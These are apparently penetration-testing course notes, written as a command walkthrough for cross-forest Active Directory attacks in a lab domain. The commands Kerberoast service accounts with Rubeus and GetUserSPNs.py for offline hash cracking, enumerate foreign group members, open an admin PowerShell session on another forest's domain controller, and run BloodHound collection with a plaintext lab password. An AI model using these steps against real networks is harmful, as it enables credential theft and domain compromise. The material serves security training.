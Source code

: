 # Windows

Cross Forest Kerberoasting
enumerating accounts with SPNs 
```
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```
enumerating the accounts found above
```
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```
kerberoasting
```
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```
we get a hashcat that we can crack using hashcat -m 13100

Admin Password Re-Use & Group Membership
```
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
```
the membername might be a sid
```
Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500
```
then we can get a session with the credentials
```
Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

# Linux 
Cross Foresting Kerberoasting
```shell-session
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

```
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
```

Hunting Foreign Group Membership with Bloodhound-python
1. Add inlanefreight.local to /etc/resolv.conf
```shell-session
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```
run bloodhound
```shell-session
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```
format
```shell-session
zip -r ilfreight_bh.zip *.json
```
2. Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf
```shell-session
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```
remove the inlanefreight.local
do it again on the new domain
```
bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```
get the zip file and then upload both to bloodhound

view dangerous rights through bloodhound

